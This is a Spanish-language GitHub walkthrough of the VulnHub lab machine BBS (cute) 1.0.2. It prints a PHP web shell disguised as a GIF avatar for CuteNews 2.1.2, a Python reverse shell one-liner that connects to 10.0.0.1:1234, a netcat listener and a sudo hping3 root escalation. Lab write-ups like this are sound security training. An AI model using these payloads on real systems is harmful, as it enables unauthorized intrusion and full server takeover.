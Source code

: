 <h1 align="center">
<br>
  <img src="https://media1.tenor.com/images/30b8dc5259183e941fff4ca89ee171b2/tenor.gif?itemid=15749033" alt="Front-End Checklist" width="200">
  <br>
  BBS (CUTE): 1.0.2
  <br>
</h1>

<h4 align="center">Maquina creada por foxlox</h4>
<h4 align="center">Aquí puedes descargarte la <a href="http://www.vulnhub.com/entry/bbs-cute-102,567/">máquina</a> y ver una descripción de ella</h4>

---
# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Web](#web)
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Web](#web-1)
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Remote Code Execution](#remote-code-execution)
  - [Reverse Shell](#reverse-shell)
- [Post-explotación](#post-explotación)
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
       - [SUDO -L](#sudo--l)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [HPING3](#hping3)
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap

Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP X.X.X.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC X.X.X.101```

Para ver si esos puertos son vulnerables usaremos este comando:

```nmap -Pn -T4 -p 80,88,110,995 --script vuln X.X.X.101```

### Web

Iremos a la pagina **index.php** y usaremos **Ctrl+U** para ver el código fuente, veremos que el captcha tiene una .php y ademas veremos la versión del **Cutenews**

<img src="https://i.gyazo.com/ec8dc1b59c4ed97bf2bea3cf8ba8a6b8.png">

## Búsqueda de vulnerabilidades

### Web
Después de esto nos registraremos y buscaremos un exploit para esa versión del **Cutenews**

Encontramos este [exploit](https://www.exploit-db.com/exploits/48800) y nos aprovechamos del payload para meterlo como php en el avatar:

```
GIF8;
<?php system($_REQUEST['cmd']) ?>
```

> El **GIF8;** es para que tenga un tamaño y sea aceptado como avatar

## Explotación de vulnerabilidades

### Remote Code Execution

Para obtener la ejecución de código remoto iremos a esta página web para utilizar el exploit anteriormente visto:

```http://X.X.X.101/uploads/avatar_jose_script.php?cmd=whoami```

Gracias a esto somos **www-data**

### Reverse Shell

Ahora buscaremos una [reverse shell en python](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/)para tener permisos como usuario.
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

> Esto lo añadimos a la url anterior tal que asi: **?cmd=AQUI_LA_REVERSE_SHELL**

Por último abriremos un puerto para recibir la respuesta de la reverse shell:

```rlwrap nc -nvlp 1234```

## Post-explotación

Para tener una shell interactiva usaremos este comando:

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

## Búsqueda de vulnerabilidades

### SUDO -L

Para ver que puede ejecutar este usuario como root usaremos el comando ```sudo -l```

El resultado es este:
```
(root) NOPASSWD: /usr/sbin/hping3 --icmp
```

## Explotación de vulnerabilidades

### HPING3

Aquí tienes una [web](https://tools.kali.org/information-gathering/hping3) donde explica las utilidades del hpin3.

Para tener root usaremos el comando tal cual y entraremos:
```sudo /usr/sbin/hping3 --icmp```

## Información Adicional

Páginas web utilizadas:

- [Exploit](https://www.exploit-db.com/exploits/48800) - Exploit Remote Code Execution del CuteNews 2.1.2.

- [Reverse Shell](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) - Cheat Sheet de reverse shells.

- [HPIN3](https://tools.kali.org/information-gathering/hping3) - Descripción del paquete hping3.


**[⬆ back to top](#-----bbs-cute-102-)**
